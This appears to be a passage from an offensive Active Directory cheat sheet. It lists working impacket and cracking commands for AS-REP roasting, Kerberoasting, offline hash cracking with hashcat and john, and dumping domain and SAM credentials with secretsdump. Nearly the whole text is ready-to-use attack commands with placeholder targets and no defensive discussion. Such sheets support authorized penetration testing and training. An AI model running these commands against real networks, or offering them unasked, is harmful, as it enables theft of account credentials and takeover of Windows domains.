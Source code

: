 ### ASREPRoast Attack Enhanced
```bash
# Find users with "Do not require Kerberos preauthentication"
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py <domain>/ -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt -no-pass

# Target specific user
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py <domain>/<username>:<password> -request -format hashcat -outputfile asrep_hashes.txt

# Alternative format for John
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py <domain>/ -usersfile users.txt -format john -outputfile asrep_hashes.txt

# Crack the hashes
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt --force
john --wordlist=/usr/share/wordlists/rockyou.txt asrep_hashes.txt
```

### Kerberoasting Enhanced
```bash
# Request service tickets for all SPNs
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py <domain>/<username>:<password> -request -format hashcat -outputfile kerberoast_hashes.txt -dc-ip <dc-ip>

# Target specific SPN
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py <domain>/<username>:<password> -request-user <target-user> -format hashcat -dc-ip <dc-ip>

# Show available SPNs without requesting tickets
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py <domain>/<username>:<password> -dc-ip <dc-ip>

# Crack service tickets
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt --force

# Rule-based cracking for service accounts
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

## Post-Exploitation and Lateral Movement

### Credential Dumping Techniques
```bash
# Secretsdump - dump all hashes
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py <domain>/<username>:<password>@<dc-ip>

# Dump specific user
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py <domain>/<username>:<password>@<dc-ip> -just-dc-user Administrator

# NTDS.dit dumping
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py <domain>/<username>:<password>@<dc-ip> -just-dc-ntlm

# Local SAM dump (if local admin on target)
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py <username>:<password>@<target> -sam
```
